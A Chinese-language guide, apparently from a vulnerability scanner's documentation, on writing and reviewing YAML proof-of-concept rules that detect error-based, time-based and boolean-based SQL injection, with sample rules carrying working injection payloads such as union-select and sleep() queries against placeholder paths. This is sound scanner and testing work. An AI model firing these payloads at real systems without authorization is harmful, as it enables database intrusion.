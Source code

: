 # SQL Injection（SQL注入）

对于sql注入相关漏洞的检测，大致分为三种类型，这里分别进行分析

!> 测试SQL注入漏洞，无论是哪种类型，都请不要使用`user()`、`version()`等函数来辅助验证漏洞的存在与否。此类规则**太过宽泛**，不同系统之间显示的内容都有不同的可能，在匹配时具有一定的随机性

## 有回显注入（error based and other）

有回显的注入检测比较简单，这里以报错注入为例进行讲解

```yaml
name: poc-yaml-test-sqli-echo-based
manual: true
transport: http
set:
	r1: randomInt(8000, 10000)
rules:
	r0:
		request:
			cache: true
			method: GET
			path: /xxx.jsp?id=1%20union%20select%201,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','{{r1}}')),db_name(1),5,6,7
		expression: response.status == 200 && response.body.bcontains(bytes(substr(md5(string(r1)), 0, 31)))
expression: r0()
detail:
	author: chaitin
	links:
		- http://example.com
```

在这类的poc中，至少有一个rule会是关于sql注入的语句，但是对于结果的展示可能并不会在同一个rule中，所以下面分为两个部分讲解审核中需要注意的问题

- 对于存在`sql注入语句`的rule
    1. 对于给出的SQL注入语句
        - 语句正确无误，能够符合目标系统检出对应的漏洞，必要时可以添加一些绕过方法增加检出率
        - 对于需要验证的变量，`一定`要使用对应sql中能够使用的编码函数处理后再进行匹配，绝对不可以使用`固定值`或者`原内容`
- 对于`验证注入结果`的rule
    1. 注意返回值的编码问题，需要与注入语句中所给出的内容相同
    2. 注意返回值的长度，在部分系统中，返回内容的长度和起始位置与直接编码的结果并不相同（`updatexml`、`extractvalue` 报错回显结果可能会被截断），这时就需要使用substr等函数截取后再进行匹配

### 模板

[有回显注入](/guide/yaml/yaml_poc_template?id=普通注入)

## 时间盲注（time based）

时间盲注的检测要稍微复杂一些，同时存在着因为网络环境等误报漏报的问题，这里举例讲解如何尽可能地减少这种误报

```yaml
name: poc-yaml-test-sqli-time-based
manual: true
transport: http
set:
	randSecond1: randomInt(5, 7)
	randSecond2: randomInt(2, 4)
rules:
	r0:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep(0)))v)%2B%27/
		expression: response.status == 200
		output:
			undelayedLantency: response.latency
	r1:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond1}})))v)%2B%27/
            read_timeout: "10"
		expression: response.latency - undelayedLantency >= randSecond1 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
	r2:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond2}})))v)%2B%27/
            read_timeout: "10"
		expression: response.latency - undelayedLantency >= randSecond2 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
expression: r0() && r1()
detail:
	author: Chaitin
	links:
		- http://example.com
```

对于时间盲注来说，我们首先需要保证出了延时的不同，path的其他部分都要保证完全一致。那么当我们发送对应的payload时，至少是能排除掉因为访问路径或者参数的不同所导致的时间差异问题

同时这里分别说明一下基础的三个请求分别所对应的意义
- 第一个请求：延时为0，测出访问对应站点时的基础延时
- 第二个请求：延时一定不为0，且时长定在(5, 7)秒，通过延长一个较长的时间来发现是否发生一个延时，但是这个内容可能收到系统方面相关网络波动的影响分
- 第三个请求：延时一定不为0，且时长一定小于第二个请求中的延时，通过一个较短的时间判断这个延时一定是因为sql注入所发生的

那么依据上边所分析出来的内容，我们可以得到以下的要求

- 在第一条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第二条rule中的request信息保持一致
        - sleep的时间一定是`0s`
    2. 关于匹配的expression
        - 符合接口的返回内容即可，比较`推荐`在其中匹配一些特有的返回结果，尽可能地消除网络环境所带来的误报问题，但是不做强求
    3. 关于output的内容
        - 这条rule一定会有output的内容，其中的变量存储着这一条请求所花费的时间
- 在第二条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第一条rule中的request信息保持一致
        - sleep的时间需要设置随机值，同时随机值的最小值一定不能小于`3s`，避免数值过小带来的网络波动问题
    2. 关于匹配的expression
        - 一定需要对访问时间的差值进行比较，确保两个相似请求之间的时间差异全部是由sleep所造成的
        - 同时无特殊的情况下，`建议`除了时间差值的比较之外，其他的内容与第一条相同
- 在第三条关于注入的rule中
    - 这一条的内容与第二条除了时间的取值都相同即可
- **一定要注意添加read_timeout: "10"，不然扫描器会直接不等响应完就根据默认时间直接结束，同时要注意该漏洞的payload是否会被执行多次，造成等待时间翻倍的情况，如果存在，请自行缩短sleep时长，同时提高read_timeout的值**

?> 这里强求对页面中的部分内容进行匹配，目的是为了作为目标系统的指纹，消除网络环境的影响，防止一些不相干的系统造成的误报。同时匹配的内容不用过多，体现出目标系统的独特性即可

### 模板

[时间盲注](/guide/yaml/yaml_poc_template?id=时间盲注)

## 布尔盲注（boolean based）

布尔盲注与时间盲注相似，都是一定会存在两个包含sql注入语句的rule，这里举例分析

```yaml
name: poc-yaml-test-sqli-boolean-based
manual: true
transport: http
set:
	s1: randomLowercase(5)
	a1: randomInt(1000, 9000)
	a2: randomInt(1000, 9000)
rules:
r0:
	request:
		cache: true
		method: POST
		path: /xxx.cgi
		headers:
			Content-Type: application/x-www-form-urlencoded
		body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a2}} and %27{{s1}}%27=%27{{s1}}
		follow_redirects: true
	expression: response.body.bcontains(b"id=\"lblWarning\">User authentication Failed")
r1:
	request:
		cache: true
		method: POST
		path: /xxx.cgi
		headers:
			Content-Type: application/x-www-form-urlencoded
		body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a1}} and %27{{s1}}%27=%27{{s1}}
		follow_redirects: true
	expression: response.body.bcontains(b"id=\"lblWarning\">User Login Failed for SSLVPN User")
expression: r0() && r1()
detail:
	author: Chaitin
	links:
		- http://example.com
```

大体的验证方法与实时间盲注相同，这里说明下几个需要注意的点
- 所匹配的页面内容一定是最终的内容，follow_redirects为true时需要匹配重定向后页面的内容
- 选取的匹配内容一定是条件为真或条件为假时所出现的`特有内容`，两者不可重叠，否则及其容易出现误报的现象

### 模板

[布尔盲注](/guide/yaml/yaml_poc_template?id=布尔盲注)
